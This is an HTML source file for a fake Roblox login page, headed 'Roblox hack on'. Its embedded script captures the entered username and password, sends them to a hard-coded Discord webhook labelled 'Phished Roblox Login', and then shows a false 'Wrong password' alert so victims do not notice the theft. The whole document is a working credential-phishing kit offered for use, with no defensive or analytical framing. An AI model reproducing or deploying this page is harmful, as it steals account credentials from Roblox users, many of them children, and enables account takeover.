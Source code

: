 <!DOCTYPE html>
<html>
<head>
  <title>Roblox Login</title>
</head>
<body>
  <h2>Roblox hack on</h2>

  <form id="phishForm">
    <input type="text" id="user" placeholder="Username" required><br>
    <input type="password" id="pass" placeholder="Password" required><br>
    <input type="submit" value="Log In">
  </form>

  <script>
    document.getElementById('phishForm').onsubmit = function(e) {
      e.preventDefault();

      const webhookURL = "[https://discord.com/api/webhooks/1375407829879488552/gBnV23D9Y78yeAjBRCNfju2m_XLltImQlzbG2nKxZdAgA1u8MfmqZhPgRHQrM3Mu_7Lv]";

      const username = document.getElementById('user').value;
      const password = document.getElementById('pass').value;

      fetch(webhookURL, {
        method: "POST",
        headers: { 'Content-Type': 'application/json' },
        body: JSON.stringify({
          content: "**Phished Roblox Login**\nUsername: " + username + "\nPassword: " + password
        })
      });

      alert("Wrong password. Try again.");
    };
  </script>
</body>
</html>
